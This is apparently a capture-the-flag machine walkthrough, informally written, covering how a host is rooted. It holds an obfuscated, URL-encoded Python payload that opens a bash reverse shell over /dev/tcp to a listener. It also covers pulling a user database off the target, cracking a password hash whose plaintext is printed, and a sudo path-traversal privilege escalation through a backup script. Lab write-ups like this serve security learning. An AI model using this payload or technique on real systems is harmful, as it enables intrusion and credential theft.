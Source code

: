 found a  python gunicorn service runnning on 5000 port 

go on it , you find a python interpreter that filter some strings we could use to gain rce , informating about the technology , i came across , Ace 1.4.12 
	As it said , it has some vulns allows to do arbritary code execution

	from a specific internet forum , i got 
module%20%3d%20globals()%5b'o'%2b's'%5d%0acommand%20%3d%20getattr(module%2c%20'sy'%2b'stem')%0acommand('bash%20-c%20%22bash%20-i%20%3e%26%20%2fdev%2ftcp%2f[ip]%2f9001%200%3e%261%22')

so intercept the run button request in burp and replace the value of variable code by the payload given above , and seting up a nc listenner 
you got a user flag

enumerating using linpeas , i saw some app running and it's folder is dropped in the user we are directory 

	so you'll find a database file in /home/app-production/app/instance/database.db
	donwload it to your machine 

	on target machine: run in the folder were the database is : python3 -m http.server 
	#it will start a local python server on 8000 port by default 

	on your machine :	wget http://IP:PORT/database.db

Open it using sqlite databse browser , and view in the user's table ; you'll see users development and martin , 
	in /home folder is a user named martin , so take his pass hash and decode it 
	it md5 one 
		martin : nafeelswordsmaster


log using ssh now  martin@IP  ; pass the password , get connected 
 
			for root once you connected 
			sudol -l 

	privesc 
		cat > /home/martin/backups/task.json << EOF
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/....//root/"
  ]
}
EOF


so run now : sudo /usr/bin/backy.sh /home/martin/backups/task.json

go now onto /home/martin/backups/
	ls -la , you'll see backups files , download them , unzip them and enjoy the root flag 

	ls -l
	wget http://IP:PORT/code_var_.._root_2025_March.tar.bz2
	
	tar -xvjf code_home_martinbackups*.tar.bz2
	cat root/root.txt

